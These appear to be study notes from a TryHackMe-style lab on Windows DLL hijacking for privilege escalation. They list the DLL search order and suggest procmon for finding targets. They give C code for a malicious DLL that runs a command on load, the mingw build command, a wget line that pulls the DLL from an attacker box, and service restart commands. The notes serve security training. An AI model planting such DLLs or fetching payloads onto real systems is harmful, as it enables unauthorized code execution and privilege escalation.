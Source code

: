
**SafeDllSearchMode is disabled**

1. The directory from which the application loaded.

2. The current directory.

3. The system directory. Use the GetSystemDirectory function to get the path of this directory.

4. The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.

5. The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.

6. The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.


### Finding DLL Hijacking Vulnerabilities

- Identifying DLL Hijacking vulnerabilities will require loading additional tools or scripts to the target system.

- we use process monitor(`procmon`) tool.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/2bffcc52df1b20dd298154b4da9b52ae.png)

### Creating the malicious DLL file

- code for malicious dll file

```c
           
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}

```

- The mingw compiler can be used to generate the DLL file with the command given below: 

`x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`

installation of mingw compiler on linux: `apt install gcc-mingw-w64-x86-64`

transfer the file to target system.(you can user powershell)
`wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll`

stop and start the dllsvc service again 
`sc stop dllsvc & sc start dllsvc`

***
